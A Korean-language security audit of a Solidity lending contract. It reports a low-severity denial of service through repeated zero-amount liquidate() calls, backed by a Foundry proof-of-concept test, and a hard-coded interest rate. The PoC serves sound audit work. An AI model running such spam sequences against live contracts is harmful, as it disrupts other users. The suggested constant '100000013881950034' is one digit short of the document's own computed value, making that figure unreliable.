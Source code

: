 # aGFraWQyOQ==

## Scope

<table>
  <tr>
    <th>Name</th>
    <td>Lending Security Audit</td>
  </tr>
  <tr>
    <th>Target / Version</th>
    <td>Git Repository (<a href="https://bit.ly/3Z9IuP8" target="_blank">Lending_solidity</a>): commit <mark>25c37d56033fd27a3f5fd772223ff2552438d8ab</mark> (<mark>main</mark> branch)</td>
  </tr>
  <tr>
    <th>Application Type</th>
    <td>Smart contracts</td>
  </tr>
  <tr>
    <th>Lang. / Platforms</th>
    <td>Smart contracts [Solidity]</td>
  </tr>
</table>

## Findings

### #1 `001` Denial of service could occur due to spamming the `updateAll()` function

|ID|Summary|Severity|
|:---:|-------|:---:|
|001|`updateAll()` 함수 내부에 반복문을 통해 모든 이용자들의 예치 및 부채에 대한 값을 업데이트하는데, 공격자가 이를 활용해 *Denial of Service* 공격을 시도할 수 있음.|Low|

#### Description

`updateAll()` 함수 내부에 반복문을 통해 모든 이용자들의 예치 및 부채에 대한 값을 업데이트하는데, 공격자가 이를 활용해 Gas Cost가 상대적으로 저렴한 EVM 환경에서 해당 컨트랙트가 배포될 시에는 *Denial of Service* 공격을 시도할 수 있음. 특히, `liquidate()` 함수 등에서, 청산 물량을 아래와 같이 `0` 으로 설정하여 반복적으로 `liquidate()` 호출 시에 해당 컨트랙트 및 프로토콜 혼잡으로 인해 다른 이용자들의 원할한 이용이 방해될 수 있음.

```solidity
function testLiquidationWithAmountZeroSpamming() external {
    vm.deal(user2, 100000000 ether);
    vm.startPrank(user2);
    {
        lending.deposit{value: 1 ether}(address(0x00), 1 ether);
    }
    vm.stopPrank();

    dreamOracle.setPrice(address(0x0), 4000 ether);

    vm.startPrank(user2);
    {
        // use all collateral
        (bool success,) = address(lending).call(
            abi.encodeWithSelector(DreamAcademyLending.borrow.selector, address(usdc), 2000 ether)
        );
        assertTrue(success);

        assertTrue(usdc.balanceOf(user2) == 2000 ether);

        usdc.approve(address(lending), type(uint256).max);
    }
    vm.stopPrank();

    dreamOracle.setPrice(address(0x0), (4000 * 66 / 100) * 1e18); // drop price to 66%
    usdc.transfer(user3, 3000 ether);

    vm.startPrank(user3);
    {
        usdc.approve(address(lending), type(uint256).max);
        (bool success,) = address(lending).call(
            abi.encodeWithSelector(DreamAcademyLending.liquidate.selector, user2, address(usdc), 0 ether)
        );
        assertTrue(success); // succeed
                    (bool success1,) = address(lending).call(
            abi.encodeWithSelector(DreamAcademyLending.liquidate.selector, user2, address(usdc), 0 ether)
        );
        assertTrue(success1); // succeed
                    (bool success2,) = address(lending).call(
            abi.encodeWithSelector(DreamAcademyLending.liquidate.selector, user2, address(usdc), 0 ether)
        );
        assertTrue(success2); // succeed
                    (bool success3,) = address(lending).call(
            abi.encodeWithSelector(DreamAcademyLending.liquidate.selector, user2, address(usdc), 0 ether)
        );
        assertTrue(success3); // succeed
                    (bool success4,) = address(lending).call(
            abi.encodeWithSelector(DreamAcademyLending.liquidate.selector, user2, address(usdc), 0 ether)
        );
        assertTrue(success4); // succeed
    }
    vm.stopPrank();
}
```

#### Impact

**Low**

해당 컨트랙트를 대상으로한 *Denial of Service* 공격에 의한 정상적인 트랜잭션 처리 지연.

#### Recommendation

`updateAll()` 함수 실행 전에 `require` 문 삽입 등을 통해 반복적이거나 올바르지 않은 요청 차단.

### #2 `002` The interest rate is hard-coded

|ID|Summary|Severity|
|:---:|-------|:---:|
|002|이자율이 하드코드되어 있음.|Informational|

#### Description

해당 Lending 컨트랙트는 24시간 당, 0.1% 의 이자율이 적용되고, 12초에 1 블록이 생성되는 EVM 환경에서 배포됨. 이에, 1 블록당 이자율은 아래와 같은 식으로 계산됨.

$$ 1.001^{(1/7200)}×10^{18} = 1.00000013881950034147221897264156541137271898967894423311848... × 10^{18} $$

이에, `blockInterest` 변수 값을 `100000013881950034` 으로 하드코드하는 방식으로 설정할 수 있으나, 좀 더 *Floating Point* 이하 부분을 잘 반영하여 이자율을 적용할 수 있는 방법의 구현이 필요함

#### Impact

**Informational**

아주 낮은 경우로 이자율의 괴리 발생.

#### Recommendation

*Floating Point* 이하 부분을 잘 반영하여 이자율을 적용할 수 있는 방법의 구현이 필요.
